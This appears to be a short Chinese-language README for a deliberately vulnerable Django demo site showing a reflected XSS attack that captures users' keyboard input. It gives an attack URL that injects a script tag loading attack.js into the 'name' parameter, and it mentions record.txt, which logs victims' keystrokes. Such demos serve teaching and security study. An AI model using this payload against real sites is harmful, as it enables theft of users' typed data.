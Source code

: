 # Django XSS Sample

Django XSS漏洞站点示例，攻击者可以获取用户的键盘输入



部署好之后通过以下攻击URL进行访问，攻击和受害方可以分开部署
http://网址/?name=mia%3Cscript%20src=%22http://网址/static/attack.js%22%3E%3C/script%3E



record.txt

用以记录受害者的输入